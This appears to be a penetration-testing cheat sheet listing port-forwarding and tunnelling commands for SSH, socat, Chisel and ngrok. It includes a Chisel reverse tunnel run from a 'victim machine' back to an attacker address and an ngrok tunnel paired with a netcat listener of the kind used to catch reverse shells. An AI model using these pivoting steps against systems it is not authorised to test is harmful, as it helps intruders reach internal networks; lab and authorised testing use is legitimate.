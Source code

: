 - [SSH](#ssh)
- [Socat](#socat)
- [Chisel](#chisel)
- [Ngrok](#ngrok)
- [References](#references)

## SSH 

**Local PortForward** 

```
ssh –L 5901:10.10.10.48:4492 root@10.10.10.47
```

**Remote PortForward** 

```
ssh –R 9999:localhost:8080 root@10.10.10.48
```

## Socat 

Make sure the machine have socat and if dont please get on that machine a socat binary.

```
./socat tcp-listen:9999,fork tcp:127.0.0.1:25 &
```


## Chisel 

Please make sure both are the same version. Please download the latest release of Chisel on the link below:

https://github.com/jpillora/chisel/releases

```
#On Our Machine
./chisel server -p 4442 -v -reverse

#On Victim Machine
chisel64.exe client 10.10.14.8:4442 R:8200:127.0.0.1:8888
```

## Ngrok 

1. Sign Up - https://dashboard.ngrok.com/

2. Download suitable ngrok for your OS

3. unzip /path/to/ngrok.zip

4. ./ngrok authtoken <AUTH-TOKEN>

```
#TCP
./ngrok tcp 9001

-> Then nc -lnvp 9001

#HTTP
./ngrok http 9001

-> Then python -m SimpleHTTPServer 9001
```


# References 
[1] https://phoenixnap.com/kb/ssh-port-forwarding#htoc-remote-port-forwarding-with-openssh

[2] https://github.com/jpillora/chisel